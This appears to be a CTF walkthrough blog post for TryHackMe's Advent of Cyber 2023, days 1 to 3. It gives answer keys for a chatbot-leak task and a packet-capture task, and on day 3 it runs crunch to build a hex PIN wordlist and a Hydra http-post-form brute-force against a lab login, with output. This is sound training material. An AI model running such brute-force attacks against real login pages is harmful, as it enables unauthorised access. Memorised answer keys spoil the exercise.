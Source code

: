 ```yaml
---
title: Advent of Cyber 2023
author: CYB3RM3
name: CYB3RM3 | Advent of Cyber 2023
date: 2023-12-04 11:41:21 +0100
categories: [TryHackMe, AdventOfCyber]
tags: ["2023", AOC]
---
```


Get started with Cyber Security in 24 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

THM Room : [https://tryhackme.com/room/adventofcyber2023](https://tryhackme.com/room/adventofcyber2023)

## TASK 7 [Day 1] Machine learning Chatbot, tell me, if you're really safe?
### What is McGreedy's personal email address?
<!-- 

![McGreedy's Email](/images/thm/adventofcyber2023/adventofcyber2023_2.png)
_McGreedy's Email_

Answer : t.mcgreedy@antarcticrafts.thm

### What is the password for the IT server room door?

![Password IT door](/images/thm/adventofcyber2023/adventofcyber2023_3.png)
_Password IT door_

Answer : BtY2S02

### What is the name of McGreedy's secret project?

![McGreedy's secret project](/images/thm/adventofcyber2023/adventofcyber2023_1.png)
_McGreedy's secret project_

Answer : Purple Snow

### If you enjoyed this room, we invite you to join our Discord server for ongoing support, exclusive tips, and a community of peers to enhance your Advent of Cyber experience!

No Answer.

## TASK 8 [Day 2] Log analysis O Data, All Ye Faithful
### Open the notebook "Workbook" located in the directory "4_Capstone" on the VM. Use what you have learned today to analyse the packet capture.

No Answer.

### How many packets were captured (looking at the PacketNumber)?

![Number Packets](/images/thm/adventofcyber2023/adventofcyber2023_4.png)
_Number Packets_

Answer : 100

### What IP address sent the most amount of traffic during the packet capture?

![IP](/images/thm/adventofcyber2023/adventofcyber2023_5.png)
_IP_

Answer : 10.10.1.4

### What was the most frequent protocol?

![Protocol](/images/thm/adventofcyber2023/adventofcyber2023_6.png)
_Protocol_

Answer : ICMP

### If you enjoyed today's task, check out the Intro to Log Analysis room.
No Answer.

## TASK 9 [Day 3] Brute-forcing Hydra is Coming to Town 

![Door locked](/images/thm/adventofcyber2023/adventofcyber2023_7.png)
_Door locked_

We can generate a file with all combination "0123456789ABCDEF" with "crunch" :

```console
root@ip-10-10-164-200:~# crunch 3 3 0123456789ABCDEF -o 3digit.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096 

crunch: 100% completed generating output
root@ip-10-10-164-200:~# ls
3digit.txt 
```
{: .nolineno }

Once done, we can use Hydra to crack the passcode :

```console
hydra -l '' -P 3digit.txt -f -v 10.10.244.212 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000

[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[...]
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[VERBOSE] Page redirected to http://10.10.244.212:8000/error.php
[8000][http-post-form] host: 10.10.244.212   password: 6F5
[STATUS] attack finished for 10.10.244.212 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-04 11:38:34
```
{: .nolineno }

Testing the found password on the door : 

![Code](/images/thm/adventofcyber2023/adventofcyber2023_8.png)
_code_

![Flag](/images/thm/adventofcyber2023/adventofcyber2023_9.png)
_flag_ -->